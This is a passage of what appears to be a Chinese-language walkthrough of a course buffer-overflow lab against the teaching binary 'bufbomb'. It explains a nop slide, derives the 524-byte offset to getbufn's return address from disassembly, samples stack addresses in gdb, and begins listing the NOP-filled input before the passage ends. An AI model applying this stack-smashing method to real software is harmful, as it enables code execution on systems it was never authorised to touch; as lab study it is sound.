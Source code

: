 可是我们还不知道返回地址应该用什么来填充。字符串首地址是变化的，虽然可以通过%esp间接求出，但在程序跳转到我们的代码之前，我们无法得知%esp的值究竟是多少（原来可以用gdb调试出来，但现在不行了）。幸好getbufn给的栈空间很大，我们可以利用nop slide技术，先让程序返回到一个我们大致猜测的地址，在这个地址及其附近的一大片区域里我们用nop指令(机器码为0x90)填充，CPU执行nop指令时除了程序计数器PC自加，别的什么也不做。把我们的代码放在这片区域的高位地址处，程序一路执行nop,就像滑行一样，一路滑到我们的代码才真正开始执行。我们可以利用gdb调试找到这个字符串开始的大致区域。

查看getbufn()汇编代码,有

```
8048bef: 8d 85 f8 fd ff ff    lea    -0x208(%ebp),%eax
```

得知写入字符串的首地址为-0x208(%ebp)，而返回地址位于0x4(%ebp)，因此我们需填充0x4-（-0x208）= 0x20c = 524个字节的字符，再写4个字节覆盖getbufn()的返回地址。

```
gdb bufbomb
(gdb) b *0x8048bf5
(gdb) r xxx -n -u yy
(gdb) p /x $ebp-0x208
$1 = 0x556838f8
(gdb) c
(gdb) p /x $ebp-0x208 
$2 = 0x556838c8
(gdb) c
(gdb) p /x $ebp-0x208 
$3 = 0x55683958
(gdb) c
(gdb) p /x $ebp-0x208 
$3 = 0x55683958
(gdb) c
(gdb) p /x $ebp-0x208 
$3 = 0x556838a8
```

返回地址只要大于0x55683958即可，就取0x55683980(80 39 68 55)吧。

因此我们要输入的16进制数字为

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
```